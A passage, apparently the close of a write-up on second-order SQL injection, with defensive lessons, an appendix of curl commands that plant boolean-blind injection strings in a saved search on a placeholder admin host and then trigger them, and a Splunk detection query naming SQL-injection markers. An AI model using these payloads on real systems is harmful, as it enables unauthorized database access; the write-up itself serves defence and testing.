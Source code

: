
## 9) Lessons Learned
- **Second‑order paths** hide behind seemingly safe first‑order validation.
- Treat **stored templates** and **logs** as untrusted input—parameterize at **consumption** time.
- Always **map identifiers** for ORDER BY/JOIN. Parameters bind **values**, not identifiers.
- Maintain **DAST canaries** (boolean/time) for regression detection.

---

## 10) Appendix
### A) Minimal curl snippets
```bash
# Seed (TRUE)
curl -sS -H 'Content-Type: application/json'   -d '{"name":"q9xZ2025''' AND 1=1 -- -","sort":"name","dir":"asc","save":true,"title":"ops-daily"}'   https://admin.example.com/admin/catalog/search

# Seed (FALSE)
curl -sS -H 'Content-Type: application/json'   -d '{"name":"q9xZ2025''' AND 1=2 -- -","sort":"name","dir":"asc","save":true,"title":"ops-daily"}'   https://admin.example.com/admin/catalog/search

# Trigger
echo 'open saved search' && curl -sS https://admin.example.com/admin/catalog/search/use?title=ops-daily -D - -o /dev/null
```

### B) Detection hooks (Splunk/KQL skeletons)
```
index=web ("pg_sleep" OR "UNION SELECT" OR "syntax error at or near") | stats count by src, uri, user
```

### C) References
- `/sqli/types/second-order.md`
- `/sqli/types/boolean-blind.md`
- `/sqli/types/time-blind.md`
- `/sqli/mitigations/prepared-statements.md`
